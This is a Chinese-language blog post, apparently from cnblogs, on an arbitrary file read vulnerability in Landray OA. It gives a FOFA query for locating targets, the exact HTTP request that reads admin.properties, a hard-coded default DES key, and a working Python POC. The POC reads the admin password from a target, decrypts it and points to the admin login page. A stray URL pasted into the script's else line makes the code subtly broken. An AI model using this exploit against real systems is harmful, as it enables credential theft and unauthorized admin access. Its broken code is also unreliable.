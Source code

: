 
# 

[↓↓↓](https://www.cnblogs.com/chen-w/p/14884175.html)  
  
蓝凌 OA 后台密码读解密+POC  
  
[↑↑↑](https://www.cnblogs.com/chen-w/p/14884175.html)

### 漏洞描述

```shell
蓝凌OA(EKP)存在任意文件读取漏洞。可利用漏洞获取敏感信息，读取配置文件得到密码后访问后台
http://x.x.x.x/admin.do 
```

### 漏洞影响版本

```shell
蓝凌OA
```

### FOFA

```shell
app="Landray-OA系统"
```

### 漏洞复现过程

```shell
利用custom.jsp任意文件读取漏洞来读取配置文件
```

Payload 如下：

```shell
请求：http://x.x.x.x/sys/ui/extend/varkind/custom.jsp
读取配置文件：/WEB-INF/KmssConfig/admin.properties，此处需要写为如下格式：
var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

在 BurpSuite 上的数据包如下：

```shell
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![](assets/1702521282-d148f4292157d3b9279d12b118634403.png)

接着可以将得到的密钥：JMK83aAgUCrm2fHdvJWIEQ== 拿去 DES 在线解密网站进行解密

```shell
默认密钥：kmssAdminKey
```

在线解密网站：

```shell
http://tool.chacuo.net/cryptdes
```

![](assets/1702521282-bce020e0338c8127c7949f3900365a44.png)

接着拿着解密后的密钥去后台进行登录：

```shell
后台：http://x.x.x.x/admin.do
```

![](assets/1702521282-19038eedb1f2673e4f4295ff4f03ee28.png)

### POC

```python
# -*- coding: utf-8 -*-
# @Author: Adura
# @Date:   2021-06-09 10:54:47
# @Last Modified by:   chenw
# @Last Modified time: 2021-06-09 11:03:01
import requests
import sys
import re
import base64
from pyDes import des, ECB, PAD_PKCS5
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def title():
    print('+-------------------------------------------------')
    print('+  \033[31mPOC_by: Chenw                   \033[0m')
    print('+  \033[31m 漏洞名称：蓝凌 OA 任意文件读取         \033[0m')
    print('+  \033[36m 使用格式：python3 Poc.py         \033[0m')
    print('+  \033[36m 请输入 URL: >>> http://ip:端口     \033[0m')
    print('+-------------------------------------------------')


def POC(url): 
    url1 =url
    url2 =url1+'/sys/ui/extend/varkind/custom.jsp'
    headers={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded"
            }
    data='var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'

    #data='var={"body":{"file":"file:///etc/passwd"}}'
    try:
        r = requests.post(url=url2,headers=headers,data=data,verify=False,timeout=10)
        if r.status_code == 200 and 'password' in r.text:
            print(url+'存在蓝凌 OA SSRF 漏洞')
            print('登录地址：'+url+'/admin.do')
            data = r.text.strip()
            data =str(data)
            data1 = data.split()
            data2 = ''.join(data1)
            password = re.findall(r"password=(.*?)\\rkmss",data2,re.I | re.M)
            password1 = str(password)
            KEY = 'kmssAdmi'
            try:
                secret_key = KEY
                iv = secret_key
                k = des(secret_key, ECB, iv, pad=None, padmode=PAD_PKCS5)
                decrystr = k.decrypt(base64.b64decode(password1))
                decrystr2 = str(decrystr, 'utf-8').strip(':')
                print('&*****&'+'后台密码为：' + decrystr2)
            except Exception as e:
                print('解密失败')

        else:http://8.129.43.243:8081/
            print(url+'\033[31m[x] 不存在漏洞 \033[0m')

    except Exception as e:
        print(url+'异常退出')	

if __name__ == '__main__':
	title()
	url = str(input("\033[35m 请输入攻击目标的 Url \nUrl >>> \033[0m"))
	POC(url)
```

使用 Poc 解密如下：

![](assets/1702521282-b78b461108f467e1050165b660a89234.png)

### 免责声明

```shell
严禁读者利用以上介绍知识点对网站进行非法操作 , 本文仅用于技术交流和学习 , 如果您利用文章中介绍的知识对他人造成损失 , 后果由您自行承担 , 如果您不能同意该约定 , 请您务必不要阅读该文章 , 感谢您的配合 !
```

应该没人会转载。。。
